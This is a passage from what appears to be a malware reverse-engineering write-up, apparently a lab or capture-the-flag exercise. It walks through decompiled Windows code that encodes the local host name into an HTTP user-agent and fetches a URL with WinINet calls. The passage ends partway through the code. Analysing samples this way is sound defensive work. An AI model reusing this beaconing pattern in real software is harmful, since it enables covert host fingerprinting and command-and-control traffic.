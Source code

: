 * Continue analyzing **line <font color="FF0000">`30`</font>**, refer to [Microsoft Document](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena)
    ```psudocode
    HINTERNET InternetOpenA(
      [in] LPCSTR lpszAgent,
      [in] DWORD  dwAccessType,
      [in] LPCSTR lpszProxy,
      [in] LPCSTR lpszProxyBypass,
      [in] DWORD  dwFlags
    );
    ```
    > [in] lpszAgent
    Pointer to a null-terminated string that specifies the name of the application or entity calling the WinINet functions. This name is used as the user agent in the HTTP protocol.
    
    We can check `user-agent` in first parameter, `name`, of `InternetOpenA` function.
    Trace back to **line <font color="FF0000">`10`</font>** and refer to [CSDN Description](https://blog.csdn.net/zhangge3663/article/details/83107684), this API will return host name from local host. In for-loop, it'll transfer the host name. Each char `Z` → `A`, `z` → `a`, `9` → `0`. In addition, the default method is increasing 1.
    ```c
    ...
    for ( i = 0; i < 256 && name[i]; ++i )
    {
      switch ( name[i] )
      {
        case 'Z':
          name[i] = 'A';
          break;
        case 'z':
          name[i] = 'a';
          break;
        case '9':
          name[i] = '0';
          break;
        default:
          ++name[i];
          break;
      }
    }
    ...
    ```
* Continue analyzing **line <font color="FF0000">`12`</font>**
    ```cpp=1
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        ...
        if ( gethostname(name, 256) )
        {
            ...
            hInternet = InternetOpenA(name, 1u, 0, 0, 0);
            if ( !&v5 )
                JUMPOUT(*(_DWORD *)&byte_40115E);
            v4 = sub_401386();
            hFile = InternetOpenUrlA(hInternet, v4, 0, 0, 0, 0);
            if ( hFile && InternetReadFile(hFile, &Buffer, 65535u, &dwNumberOfBytesRead) )
            {
                InternetCloseHandle(hFile);
                Str = strstr(&Buffer, SubStr);
                if ( Str )
                {
                    *strstr(Str, asc_40303C) = 0;
                    JUMPOUT(*(_DWORD *)&byte_401215);
                }